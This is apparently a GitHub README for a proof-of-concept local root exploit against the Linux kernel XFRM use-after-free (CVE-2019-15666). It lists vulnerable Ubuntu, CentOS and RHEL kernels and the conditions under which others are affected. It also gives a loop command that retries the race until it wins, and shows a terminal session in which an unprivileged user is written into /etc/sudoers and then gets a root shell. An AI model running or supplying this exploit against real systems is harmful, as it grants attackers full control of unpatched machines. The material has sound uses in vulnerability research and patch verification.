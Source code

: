 # CVE-2019-15666

CVE-2019-15666

Vulnerability reference:
 * [CVE-2019-15666](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15666)  

The exp binary is from [@Vitaly Nikolenko](https://github.com/duasynt/xfrm_poc/tree/master)

The exp code is from [@Risk&Co](https://github.com/riskeco/Lucky/tree/master)

## Linux kernel 3.x - 5.x XFRM UAF PoC 

This is a poc for the [kernel
vulnerability](https://duasynt.com/blog/ubuntu-centos-redhat-privesc) that was
reported last year. CentOS was the last distribution to patch the bug in
January 2020.

The technical report is here https://duasynt.com/pub/vnik/01-0311-2018.pdf

Should work on all kernels with the build date before July - November 2019 on
the following distributions:

- Ubuntu 14.04 / 16.04 Server 4.4 LTS kernels
- CentOS 8 4.18 kernels
- Red Hat Enterprise Linux 8 4.18 kernels
- Ubuntu 18.04 Server LTS 4.15 kernels

Other distributions might be affected if:

- unprivileged usernamespaces are allowed
- xfrm support is compiled in or can be autoloaded
- the patch was not backported

It will probably take several tries to win the race (sometimes over 10
attempts), so run it in a loop just like it says:

```
$ while :; do ./lucky0 -q && break; done
```

On success, the current user is added to /etc/sudoers without a password.

```
[vnik@localhost ~]$ cat /etc/redhat-release 
CentOS Linux release 8.1.1911 (Core) 
[vnik@localhost ~]$ uname -a
Linux localhost.localdomain 4.18.0-80.11.2.el8_0.x86_64 #1 SMP Tue Sep 24 11:32:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[vnik@localhost ~]$ while :; do ./lucky0 -q && break; done
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[+] current user vnik was added to /etc/sudoers w/o a password. 'sudo -s' to get a shell
[vnik@localhost ~]$ sudo -s
[root@localhost vnik]# 
```

**On 4.4.x kernels it may trigger a null oops but it's fully recoverable.**
